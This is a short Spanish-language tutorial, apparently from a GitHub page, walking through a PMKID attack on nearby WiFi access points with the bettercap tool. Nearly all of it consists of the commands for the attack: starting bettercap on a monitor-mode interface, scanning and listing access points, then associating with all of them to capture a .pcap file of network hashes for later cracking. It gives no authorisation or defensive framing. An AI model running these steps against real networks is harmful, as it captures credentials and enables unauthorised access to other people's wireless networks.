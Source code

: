 Para realizar el ataque de [[PKMID]] con bettercap es bastante sencillo

Por supuesto abrimos bettercap con la tarjeta de red en modo monitor previamente.

	./bettercap -iface wlan0mon

Primero escaneamos los AP disponibles.

	>> wifi.recon on

y podemos ver los AP encontrados.

	>>wifi.show

Y con el siguiente comando realizamos el ataque.

	>>wifi.assoc all

Con esto ya tendremos un archivo .pcap donde contienen todos los hashes de las redes.
